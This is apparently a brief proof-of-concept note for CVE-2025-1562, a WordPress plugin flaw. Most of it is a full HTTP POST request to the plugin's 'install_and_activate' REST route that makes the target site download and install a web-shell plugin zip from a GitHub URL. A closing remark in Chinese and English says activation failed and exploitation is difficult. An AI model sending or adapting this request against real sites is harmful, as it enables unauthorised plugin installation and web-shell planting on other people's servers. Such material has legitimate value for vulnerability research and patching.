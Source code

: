 # CVE-2025-1562


```
POST /index.php?rest_route=%2Fautonami-app%2Fplugin%2Finstall_and_activate&bwf-nonce=0f2449cddf9a7d692627071cfdef9ecf HTTP/2
Host: wp.192.168.31.110.nip.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Type: application/json
Content-Length: 117

{
  "action": "install",
  "url": "https://github.com/maximo896/webshell-example/raw/refs/heads/main/suffer.zip"
}
```

无权限激活插件，无法直接获取到插件路径，利用难度大
unable to activate evil plugin, unable to retrieve the plugin path, difficult to attach
